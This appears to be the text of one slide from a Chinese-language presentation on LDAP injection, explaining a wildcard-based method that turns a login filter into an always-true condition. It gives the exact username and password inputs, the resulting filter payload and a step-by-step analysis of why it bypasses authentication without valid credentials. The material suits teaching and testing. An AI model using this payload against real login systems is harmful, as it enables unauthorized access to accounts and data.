

五种注入方式
方法一 ： 模糊匹配构造永真式（通配符*没被过滤）
username  :  *)(|(uid=*
password   :  anyword)
payload      :  (&(uid=*)(|(uid=*)(userPassword=anyword)))
分析
先计算 【或过滤器】  :  (|(uid=*)(userPassword=anyword))
再计算 【与过滤器】  :  (&(uid=*) … )
 (uid=*) 是模糊匹配，必定永真，即两个过滤器都是永真，即整个条件式为永真式
此方法不需要知道 username  和 password 即可实现绕过